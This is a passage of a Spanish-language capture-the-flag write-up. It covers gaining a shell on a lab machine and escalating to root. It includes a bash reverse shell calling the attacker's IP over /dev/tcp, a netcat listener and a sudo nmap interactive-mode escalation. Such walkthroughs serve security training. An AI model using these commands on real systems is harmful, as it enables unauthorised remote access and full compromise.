 Nos encontramos dentro de la máquina, ahora para trabajar un poco mas ordenados; nos establecemos una conexión hacia nuestro equipo de atacante; por lo que ejecutamos el siguiente com ando y nos ponemos en escucha por el puerto 443:

```bash
$ bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"
$
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.7] 56804
bash: no job control in this shell
bash-3.2$ whoami
asterisk
bash-3.2$
```

Hacemos un [Tratamiento de la tty](/tratamiento-tty) y comenzamos con la enumeración de los permisos que tiene el usuario *asterisk*:

```bash
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$
```

Observamos que tienemos multiples recursos que podemos ejecutar temporalmente como el usuario *root*; para este caso se utilizará *nmap*:

```bash
bash-3.2$ nmap --version

Nmap version 4.11 ( http://www.insecure.org/nmap/ )
bash-3.2$ 
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```